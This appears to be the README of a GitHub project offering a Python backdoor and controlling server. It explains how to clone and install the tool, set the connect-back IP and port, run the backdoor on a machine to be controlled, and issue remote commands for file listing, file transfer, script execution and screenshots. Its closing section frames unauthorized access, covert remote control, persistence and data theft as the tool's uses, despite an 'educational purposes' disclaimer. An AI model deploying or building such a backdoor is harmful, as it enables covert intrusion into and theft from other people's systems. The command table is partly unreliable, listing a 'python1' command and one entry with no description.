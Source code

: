 # Backdoor-And-Server 💻🔗

- Welcome to the Backdoor-And-Server project, a powerful yet educational server-client Python application that enables you to remotely execute commands from the server on the backdoor. 

## Warning 🚨
**Please note that this project is intended for educational and research purposes only. Use it responsibly and only on devices and systems for which you have explicit authorization. The author of this project is not responsible for any misuse or illegal activities involving this software.**

## Table of Contents

1. [Installation Process](#installation-process-) 📥
2. [Requirements](#requirements-%EF%B8%8F) 🛠️
3. [Pre-Execution Setup](#pre-execution-%EF%B8%8F) ⏮️
4. [Execution](#execution-%EF%B8%8F) 🏃‍♂️
5. [Available Commands](#available-commands-) 💻
6. [Potential Uses](#potential-uses-) 💡

## Installation Process 📥

- Let's get you started with Backdoor-And-Server. First, clone the repository and navigate to the `Backdoor-And-Server` directory:

```bash
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

## Requirements 🛠️

Next, install the requirements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install tqdm
```
For **Backdoor.py**
```
$ pip3 install pyautogui 
```

## Pre Execution ⏮️

- On line number **137** of **server.py** file
```
137. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```
- On line number **153** of **backdoor.py** file
```
153. s.connect(('xx.xxx.xx.xx',xxxx))  #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```

## Execution 🏃‍♂️

- Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
- Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
- This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands 💡

- Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 🌟

- Backdoor and server can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.
